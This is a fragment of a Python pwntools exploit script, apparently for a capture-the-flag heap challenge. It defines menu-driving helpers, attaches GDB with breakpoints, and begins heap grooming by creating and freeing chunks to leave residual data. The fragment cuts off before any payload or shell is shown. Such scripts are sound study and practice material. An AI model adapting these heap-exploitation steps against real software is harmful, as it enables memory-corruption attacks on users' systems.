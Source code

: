 ```
    sh.send(Str(Arr[2]))
    sh.recvuntil('Which challenge do you want to check?\n')
    Num(idx)

def Modify(idx, arr):
    sh.recvuntil('$ ')
    sh.send(Str(Arr[3]))
    sh.recvuntil('Which challenge do you want to modify?\n')
    Num(idx)
    for N in arr:
        sh.recvuntil(': ')
        Num(N)

def Bye():
    sh.recvuntil('$ ')
    sh.send(Str(Arr[4]))

def Challenge(arr, name=''):
    Cmd(2)
    i = 0
    while i &lt; len(arr):
        C = arr[i]
        i+=1
        sh.recvuntil('answer: ')        
        if(C=="silver"):    
            sh.sendline('next_next')
        elif(C=='golden'):    
            sh.sendline('whos_your_daddy')
            sh.recvuntil('Input: ')
            Num(arr[i])
            i+=1
        else:
            Num(C)
    if(len(name)==0):
        return
    sh.recvuntil('How long is your name?\n')
    Num(len(name))
    sh.recvuntil('Input your name!\n')
    sh.send(name)

def List():
    Cmd(3)

def Exit():
    Cmd(4)

def GDB():
    gdb.attach(sh, '''        
    break *(0x0000555555554000+0x2239)
    break *free
    telescope (0x0000555555554000+0x204360) 40
    break *exit
    ''')

Prepare()

#leave remain char in chunkA
Create([0xFFFFFFFF]*11)
Delete(0)

#pass a game to write Record
Create([0x0]*3)        #idx:0
Bye()
```